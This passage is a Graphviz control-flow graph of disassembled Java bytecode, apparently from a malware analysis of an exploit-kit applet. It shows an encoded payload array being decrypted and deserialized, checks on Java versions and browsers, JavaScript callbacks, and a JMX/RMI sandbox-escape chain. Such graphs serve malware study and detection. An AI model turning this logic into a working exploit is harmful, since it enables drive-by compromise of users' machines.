    "load.r $r7"->"push 180";
    "push 180"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 181"
    "load.r $r7"->"push 181";
    "push 181"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 182"
    "load.r $r7"->"push 182";
    "push 182"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 183"
    "load.r $r7"->"push 183";
    "push 183"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 184"
    "load.r $r7"->"push 184";
    "push 184"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 185"
    "load.r $r7"->"push 185";
    "push 185"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 186"
    "load.r $r7"->"push 186";
    "push 186"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 187"
    "load.r $r7"->"push 187";
    "push 187"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 188"
    "load.r $r7"->"push 188";
    "push 188"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 189"
    "load.r $r7"->"push 189";
    "push 189"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 190"
    "load.r $r7"->"push 190";
    "push 190"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 191"
    "load.r $r7"->"push 191";
    "push 191"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 192"
    "load.r $r7"->"push 192";
    "push 192"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 193"
    "load.r $r7"->"push 193";
    "push 193"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 194"
    "load.r $r7"->"push 194";
    "push 194"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 195"
    "load.r $r7"->"push 195";
    "push 195"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 196"
    "load.r $r7"->"push 196";
    "push 196"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 197"
    "load.r $r7"->"push 197";
    "push 197"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 198"
    "load.r $r7"->"push 198";
    "push 198"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 199"
    "load.r $r7"->"push 199";
    "push 199"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 200"
    "load.r $r7"->"push 200";
    "push 200"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 201"
    "load.r $r7"->"push 201";
    "push 201"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 202"
    "load.r $r7"->"push 202";
    "push 202"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 203"
    "load.r $r7"->"push 203";
    "push 203"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 204"
    "load.r $r7"->"push 204";
    "push 204"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 205"
    "load.r $r7"->"push 205";
    "push 205"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 206"
    "load.r $r7"->"push 206";
    "push 206"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 207"
    "load.r $r7"->"push 207";
    "push 207"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 208"
    "load.r $r7"->"push 208";
    "push 208"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 209"
    "load.r $r7"->"push 209";
    "push 209"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 210"
    "load.r $r7"->"push 210";
    "push 210"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 211"
    "load.r $r7"->"push 211";
    "push 211"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 212"
    "load.r $r7"->"push 212";
    "push 212"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 213"
    "load.r $r7"->"push 213";
    "push 213"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 214"
    "load.r $r7"->"push 214";
    "push 214"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 215"
    "load.r $r7"->"push 215";
    "push 215"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 216"
    "load.r $r7"->"push 216";
    "push 216"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 217"
    "load.r $r7"->"push 217";
    "push 217"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 218"
    "load.r $r7"->"push 218";
    "push 218"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 219"
    "load.r $r7"->"push 219";
    "push 219"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 220"
    "load.r $r7"->"push 220";
    "push 220"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 221"
    "load.r $r7"->"push 221";
    "push 221"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 222"
    "load.r $r7"->"push 222";
    "push 222"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 223"
    "load.r $r7"->"push 223";
    "push 223"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 224"
    "load.r $r7"->"push 224";
    "push 224"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 225"
    "load.r $r7"->"push 225";
    "push 225"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 226"
    "load.r $r7"->"push 226";
    "push 226"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 227"
    "load.r $r7"->"push 227";
    "push 227"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 228"
    "load.r $r7"->"push 228";
    "push 228"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 229"
    "load.r $r7"->"push 229";
    "push 229"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 230"
    "load.r $r7"->"push 230";
    "push 230"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 231"
    "load.r $r7"->"push 231";
    "push 231"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 232"
    "load.r $r7"->"push 232";
    "push 232"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 233"
    "load.r $r7"->"push 233";
    "push 233"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 234"
    "load.r $r7"->"push 234";
    "push 234"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 235"
    "load.r $r7"->"push 235";
    "push 235"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 236"
    "load.r $r7"->"push 236";
    "push 236"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 237"
    "load.r $r7"->"push 237";
    "push 237"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 238"
    "load.r $r7"->"push 238";
    "push 238"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 239"
    "load.r $r7"->"push 239";
    "push 239"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 240"
    "load.r $r7"->"push 240";
    "push 240"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 241"
    "load.r $r7"->"push 241";
    "push 241"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 242"
    "load.r $r7"->"push 242";
    "push 242"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 243"
    "load.r $r7"->"push 243";
    "push 243"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 244"
    "load.r $r7"->"push 244";
    "push 244"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 245"
    "load.r $r7"->"push 245";
    "push 245"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 246"
    "load.r $r7"->"push 246";
    "push 246"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 247"
    "load.r $r7"->"push 247";
    "push 247"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 248"
    "load.r $r7"->"push 248";
    "push 248"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 249"
    "load.r $r7"->"push 249";
    "push 249"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 250"
    "load.r $r7"->"push 250";
    "push 250"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 251"
    "load.r $r7"->"push 251";
    "push 251"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 252"
    "load.r $r7"->"push 252";
    "push 252"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 253"
    "load.r $r7"->"push 253";
    "push 253"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 254"
    "load.r $r7"->"push 254";
    "push 254"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 255"
    "load.r $r7"->"push 255";
    "push 255"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 256"
    "load.r $r7"->"push 256";
    "push 256"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 257"
    "load.r $r7"->"push 257";
    "push 257"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 258"
    "load.r $r7"->"push 258";
    "push 258"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 259"
    "load.r $r7"->"push 259";
    "push 259"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 260"
    "load.r $r7"->"push 260";
    "push 260"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 261"
    "load.r $r7"->"push 261";
    "push 261"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 262"
    "load.r $r7"->"push 262";
    "push 262"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 263"
    "load.r $r7"->"push 263";
    "push 263"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 264"
    "load.r $r7"->"push 264";
    "push 264"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 265"
    "load.r $r7"->"push 265";
    "push 265"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 266"
    "load.r $r7"->"push 266";
    "push 266"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 267"
    "load.r $r7"->"push 267";
    "push 267"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 268"
    "load.r $r7"->"push 268";
    "push 268"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 269"
    "load.r $r7"->"push 269";
    "push 269"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 270"
    "load.r $r7"->"push 270";
    "push 270"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 271"
    "load.r $r7"->"push 271";
    "push 271"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 272"
    "load.r $r7"->"push 272";
    "push 272"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 273"
    "load.r $r7"->"push 273";
    "push 273"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 274"
    "load.r $r7"->"push 274";
    "push 274"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 275"
    "load.r $r7"->"push 275";
    "push 275"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 276"
    "load.r $r7"->"push 276";
    "push 276"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 277"
    "load.r $r7"->"push 277";
    "push 277"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 278"
    "load.r $r7"->"push 278";
    "push 278"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 279"
    "load.r $r7"->"push 279";
    "push 279"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 280"
    "load.r $r7"->"push 280";
    "push 280"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 281"
    "load.r $r7"->"push 281";
    "push 281"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 282"
    "load.r $r7"->"push 282";
    "push 282"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 283"
    "load.r $r7"->"push 283";
    "push 283"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 284"
    "load.r $r7"->"push 284";
    "push 284"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 285"
    "load.r $r7"->"push 285";
    "push 285"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 286"
    "load.r $r7"->"push 286";
    "push 286"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 287"
    "load.r $r7"->"push 287";
    "push 287"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 288"
    "load.r $r7"->"push 288";
    "push 288"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 289"
    "load.r $r7"->"push 289";
    "push 289"->"push 19";
    "push 19"->"arraywrite.i";
    "new java.lang.String"
    "arraywrite.i"->"new java.lang.String";
    "new java.lang.String"->"load.r $r7";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "load.r $r7"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r $r7";
    "store.r $r7"->"load.r $r7";
    "load.r $r7"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "push null"->"store.r $r17";
    "goto load.r r2"
    "store.r $r17"->"goto load.r r2";
    "load.r r2"
    "goto load.r r2"->"load.r r2";
    "push \"notie\""
    "load.r r2"->"push \"notie\"";
    "push \"notie\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i push 0"
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b $r17"
    "push 1"->"store.b $r17";
    "goto load.r r1"
    "store.b $r17"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "push \"1.6.0_19\""
    "load.r r1"->"push \"1.6.0_19\"";
    "push \"1.6.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b $r7"
    "push 1"->"store.b $r7";
    "goto load.b $r17"
    "store.b $r7"->"goto load.b $r17";
    "load.b $r17"
    "goto load.b $r17"->"load.b $r17";
    "load.b $r7"
    "load.b $r17"->"load.b $r7";
    "and.b"
    "load.b $r7"->"and.b";
    "ifeq load.r r1"
    "and.b"->"ifeq load.r r1";
    "ifeq load.r r1"->"load.r r0";
    "virtualinvoke <huiak: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <huiak: java.applet.AppletContext getAppletContext()>";
    "new java.net.URL"
    "virtualinvoke <huiak: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"javascript:JAVASMB();\""
    "dup1.r"->"push \"javascript:JAVASMB();\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"javascript:JAVASMB();\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "load.r r1"->"push \"1.6.0_19\"";
    "push \"1.6.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 1"
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r1";
    "push \"1.6.0_20\""
    "load.r r1"->"push \"1.6.0_20\"";
    "push \"1.6.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r1";
    "push \"1.6.0_21\""
    "load.r r1"->"push \"1.6.0_21\"";
    "push \"1.6.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"push 0";
    "store.b r1"
    "push 0"->"store.b r1";
    "store.b r1"->"goto load.r r2";
    "goto load.r r2"->"load.r r2";
    "push \"isie\""
    "load.r r2"->"push \"isie\"";
    "push \"isie\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b r2"
    "push 1"->"store.b r2";
    "goto load.b r1"
    "store.b r2"->"goto load.b r1";
    "load.b r1"
    "goto load.b r1"->"load.b r1";
    "load.b r2"
    "load.b r1"->"load.b r2";
    "load.b r2"->"and.b";
    "ifeq return"
    "and.b"->"ifeq return";
    "ifeq return"->"load.r r0";
    "load.r r0"->"virtualinvoke <huiak: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <huiak: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"javascript:JAVASKYLINE();\""
    "dup1.r"->"push \"javascript:JAVASKYLINE();\"";
    "push \"javascript:JAVASKYLINE();\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"store.r r0";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b r2";
    "ifcmpne.i push 1"->"push 1";
    "push 1"->"store.b r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"store.r $r17";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b $r7";
    "ifcmpeq.i push 0"->"push 0";
    "push 0"->"store.b $r17";
    "push null"->"store.r $r17";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r $r7";
    "new CusBen"
    "load.r $r7"->"new CusBen";
    "new CusBen"->"dup1.r";
    "specialinvoke <CusBen: void <init>()>"
    "dup1.r"->"specialinvoke <CusBen: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <CusBen: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r $r7";
    "push \"javasucks\""
    "load.r $r7"->"push \"javasucks\"";
    "push \"javasucks\""->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "load.r $r17"
    "push null"->"load.r $r17";
    "load.r $r17"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"goto load.r r2";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"
    "load.r $r7"->"virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>";
    "load.r $r7"->"staticinvoke <huiak: java.lang.String decrypt(int[])>";
    "staticinvoke <huiak: byte[] HexDecode(java.lang.String)>"
    "staticinvoke <huiak: java.lang.String decrypt(int[])>"->"staticinvoke <huiak: byte[] HexDecode(java.lang.String)>";
    "store.r r81"
    "staticinvoke <huiak: byte[] HexDecode(java.lang.String)>"->"store.r r81";
    "load.r r81"
    "store.r r81"->"load.r r81";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "load.r r81"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "new java.io.ByteArrayInputStream"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"store.r $r7";
    "store.r $r7"->"load.r $r7";
    "load.r $r7"->"load.r r81";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r81"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r $r7";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r $r7"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"store.r $r17";
    "store.r $r17"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
}
